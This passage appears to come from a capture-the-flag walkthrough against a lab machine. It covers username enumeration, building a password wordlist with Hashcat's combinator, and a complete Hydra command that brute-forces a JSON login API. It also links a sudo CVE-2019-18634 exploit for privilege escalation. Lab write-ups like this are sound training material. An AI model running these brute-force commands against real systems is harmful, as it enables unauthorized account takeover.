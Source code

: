 The `unbuffer` command is used to force line-buffering of stdout in a pipeline.

Note that this takes a looong time. And we really need to run this process twice – once with the full list, and once with only those names that initially took longer than 1.7 seconds (this is necessary because the web server seems to periodically hang when rapidly hit by requests; 1.7 seconds is chosen based on the time it takes to run the script against a test list composed of my known-good user and a couple of other names).

The second run is, mercifully, much shorter, and makes it obvious that there is only a single valid user, `james`.

- [SecLists / Usernames / Names / names.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt)
- [Force line-buffering of stdout in a pipeline](https://stackoverflow.com/questions/11337041/force-line-buffering-of-stdout-in-a-pipeline#comment111940075_11337310)

## Attack Passwords

The Hashcat `combinator.bin` utility combines two wordlists such that every entry of the first list is concatenated with every entry from the second list.

```
/usr/lib/hashcat-utils/combinator.bin \
$WORDLIST1 $WORDLIST2 > $COMBINED_WORDLIST
```

Hydra can be used to attack API endpoints that accept JSON (though apparently there can be some problems with the headers that are passed along):

```
hydra -vV -f -l $USERNAME -P $PASSWORDLIST \
$HOST http-post-form \ 
$ENDPOINT:"$TEMPLATE":F="$INVALID":H="Content-Type\: application/json"
```

The `$TEMPLATE` is basically the JSON request body with the special placeholders `^USER^` and `^PASS^` (colons escaped). `$INVALID` is a string that will appear for login _failures_ (note that this string _cannot_ contain a colon, but fortunately is a substring match). The `H` parameter at the end allows us to override specific headers (necessary because otherwise Hydra sends a Content-Type of application/x-www-form-urlencoded).

Putting this all together, we have:

```
hydra -vV -f -l james -P passwords.txt \
10.10.156.141 http-post-form \
/api/user/login:"{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}":F="Invalid Username Or Password":H="Content-Type\: application/json"
```

- [Using Hashcat](https://cardboard-iguana.com/notes/hashcat.html)
- [Using Hydra](https://cardboard-iguana.com/notes/hydra.html)
- [Hydra bruteforce and JSON](https://security.stackexchange.com/questions/57839/hydra-bruteforce-and-json)
- [Bruteforce - Using Hydra with JSON](https://security.stackexchange.com/questions/203501/bruteforce-using-hydra-with-json)

## Escalate

[Details about the sudo “pwfeedback” bug (CVE-2019-18634).](https://www.sudo.ws/security/advisories/pwfeedback/)

[Exploit code for CVE-2019-18634.](https://github.com/saleemrashid/sudo-cve-2019-18634)

